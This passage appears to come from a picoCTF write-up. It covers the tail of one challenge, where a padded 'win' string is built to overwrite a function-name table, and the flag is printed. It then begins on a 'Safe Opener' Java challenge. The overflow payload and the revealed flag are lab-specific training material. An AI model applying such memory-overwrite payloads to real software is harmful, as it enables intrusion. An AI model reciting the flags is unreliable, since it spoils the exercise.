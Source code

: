 ```
  # Get function name from table
  func_name = ''
  func_name_offset = n * FUNC_TABLE_ENTRY_SIZE
  for i in range(func_name_offset, func_name_offset+FUNC_TABLE_ENTRY_SIZE):
    if( func_table[i] == ' '):
      func_name = func_table[func_name_offset:i]
      break

  if( func_name == '' ):
    func_name = func_table[func_name_offset:func_name_offset+FUNC_TABLE_ENTRY_SIZE]
  
  return func_name
```
Keeping these condition in mind, we create the payload.
```
func_table =  '\"'+'win ' + 'A'*(28 + 32*3) + '\"'
print(func_table)
```
```
thermos@valkyrie:~/picoCTF$ python3 test.py 
"win AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```
Now we just run the program and rewrite the value.
![alt text](images/image-4.png)  
Once we decode the hex string, we get the flag.  
Flag: **picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_226dd285}**  


## Safe Opener
Let's just go through the program.
```
import java.io.*;
import java.util.*;  
public class SafeOpener {
    public static void main(String args[]) throws IOException {
        BufferedReader keyboard = new BufferedReader(new InputStreamReader(System.in));
        Base64.Encoder encoder = Base64.getEncoder();
        String encodedkey = "";
        String key = "";
        int i = 0;
        boolean isOpen;
        

        while (i < 3) {
            System.out.print("Enter password for the safe: ");
            key = keyboard.readLine();

            encodedkey = encoder.encodeToString(key.getBytes());
            System.out.println(encodedkey);
              
            isOpen = openSafe(encodedkey);
            if (!isOpen) {
                System.out.println("You have  " + (2 - i) + " attempt(s) left");
                i++;
                continue;
            }
```